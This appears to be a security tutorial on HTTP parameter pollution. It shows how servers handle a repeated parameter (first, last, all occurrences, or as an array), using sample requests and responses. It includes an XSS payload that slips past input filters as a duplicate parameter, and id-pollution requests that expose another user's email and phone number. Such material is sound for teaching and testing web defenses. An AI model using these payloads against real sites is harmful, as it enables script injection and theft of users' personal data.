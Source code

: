 ## Anatomy of Parameter Pollution :
The manipulation of the value of each parameter depends on how each web technology is parsing these parameters. Some web technologies parse the first or the last occurrence of the parameter, some concatenate all the inputs and others will create an array of parameters.

<p align="center">
  <img 
    width="600"
    height="700"
    src="https://user-images.githubusercontent.com/63053441/159308061-dd00ec1d-bc07-406f-9e19-7a654ff4af54.png"
  >
</p>

## 1 - All occurrences of specific parameter :
  This means that if we parse the same name parameters like q=hello&q=”><svg/onload=alert(1)> the check will be performed on both the parameters because they have the same name. In All occurrences, the barrier is if the back-end logic is configured to allow a specific parameter only 1 time then appending another parameter (q=hello&q=”><svg/onload=alert(1)>) of same name will give you an error.

<br></br>
Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100&id=101
```
Response :
```
HTTP/1.1 403
server: nginx
content-type: application/json
cache-control: no-cache, private
```
HTTP Parameter Pollution Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100,101
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private

{

"email":"yourmail@gmail.com","phoneNumber":+91-9999999999,"email":"victim@gmail.com","phoneNumber":+91-8888888888

}
```

## 2 - First occurrence :
  First occurrence means a web application performs input validation on the first parameter which makes it vulnerable to second parameter which should be of same name.

Request :
```
GET /search?q="><svg/onload=alert(1)> HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
Response :
```
HTTP/1.1 403 Forbidden
server: nginx
content-type: application/json
cache-control: no-cache, private
```
HTTP Parameter Pollution Request :
```
GET /search?q=Hello&q="><svg/onload=alert(1)> HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private
```
In the above mentioned polluted request only the first occurrence (q=Hello) is checked and the last occurrence (q=”><svg/onload=alert(1)>) is not sanitized which means it will trigger XSS.


## 3 - Last occurrence :
  Last occurrence means a web application performs input validation on the last parameter which makes it vulnerable to first parameter which should be of same name.
  
Request :
```
GET /search?q="><svg/onload=alert(1)> HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
Response :
```
HTTP/1.1 403 Forbidden
server: nginx
content-type: application/json
cache-control: no-cache, private
```
HTTP Parameter Pollution Request :
```
GET /search?q="><svg/onload=alert(1)>&q=Hello HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private
```
In the above mentioned polluted request only the last occurrence (q=Hello) is checked and the first occurrence (q="><svg/onload=alert(1)>) is not sanitized which means it will trigger XSS.

## 4 - Becomes an array :
  Becomes an array means whatever the input is sent from the client side the server parsed it into an array and displays it. Which means the parameter which you are polluting has an array as datatype, which is also the most vulnerable.
  
Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100
```
Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private

{

"email":["yourmail@gmail.com"],"phoneNumber":[+91-9999999999]

}
```
HTTP Parameter Pollution Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100&id=101
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private

{

"email":["yourmail@gmail.com","victim@gmail.com"],"phoneNumber":[+91-9999999999,+91-8888888888]

}
```
#### Refrences: https://shahjerry33.medium.com/parameter-pollution-zero-day-3feb86ee8a02
